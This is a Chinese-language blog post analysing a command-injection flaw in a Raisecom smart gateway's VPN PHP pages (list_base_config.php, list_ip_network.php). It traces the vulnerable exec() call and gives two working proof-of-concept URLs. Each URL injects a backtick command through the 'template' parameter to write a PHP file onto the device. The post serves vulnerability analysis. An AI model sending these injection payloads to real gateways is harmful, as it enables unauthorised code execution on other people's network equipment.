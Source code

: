#  瑞斯康达智能网关命令执行漏洞简单分析   
原创 xianke  XK Team   2024-12-31 08:20  
  
#### 漏洞分析  
  
今年看到这个厂商的设备又爆漏洞了，一起分析下这个命令执行漏洞  
  
我们先根据网上的文章定位漏洞文件 list_base_config.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9BnjdibyRF8TKz9YsOdoDwo4KlLCyTN8QxMibSkFoCQVSzs8CUrS4AwLw7SqQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241231103058916  
  
这里看到可以传入几个参数 type parts pages serch_value，我们往下看这个switch分支的判断条件，想要调用sslvpn_config_mod这个方法的话我们需要按照条件构造参数到这里参数应该是  
```
parts=base_config&type=mod
```  
  
我们进入到这个方法中，看到了几个exec函数，不过没找到上述传入的 $config_type = 2;在哪，没关系我们直接看这个朴实无华的命令拼接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9BnjdphjclJUHic5gV3uXBiayBfoQibfP33dTyNDpE25yK7M1FGvzEynY4RQfw/640?wx_fmt=png&from=appmsg "")  
  
image-20241231105423075  
  
这里发现传入两个参数都可触发命令拼接我们选择 template 进行传参并带入exec函数执行，  
```
template=`echo+-e+'<?php phpinfo();>'>/www/tmp/phpinfo.php`
```  
  
那么到这里我们的完整poc应该就是  
```
http://127.0.0.1/vpn/list_base_config.php?parts=base_config&type=mod&template=`echo+-e+'<?php phpinfo();?>'>/www/tmp/phpinfo.php`
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9BnjdZcn6Mdjc2KMQsAJDO8qVAtXzUXaDDbPeW3t1Mj1TRzL0KibYM8MblxQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241231110849770  
#### 梅开二度  
  
这里我们查看这个方法的调用还有以下几个文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9Bnjdfo3Rf4o76VHnG8OiaDgTQWiaOnbic76frFAn5nMHGByssIC4D280Kxz1Q/640?wx_fmt=png&from=appmsg "")  
  
image-20241231111504917  
  
随便看一个其他的 list_ip_network.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9BnjdnOjkrm8aXfnIDVRKhBCt1gqk4esZkI0bTpmIEYMibstK8nNcjWKx62g/640?wx_fmt=png&from=appmsg "")  
  
image-20241231111545946  
  
这里需要满足传参 Nradius_submit为ture的情况下即可，所以poc为  
```
/vpn/list_ip_network.php?Nradius_submit=1&template=`echo+-e+'<?php phpinfo();?>'>/www/tmp/info.php`
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/oy4sM7gQoibDb7OF7WglSSCq0icFq9BnjdlHIkT4wwNiaUooNUiac13emIT7E8I4bljrOiaW3QbH6dhZHqWabdahiacA/640?wx_fmt=png&from=appmsg "")  
  
image-20241231111949083  
  
  
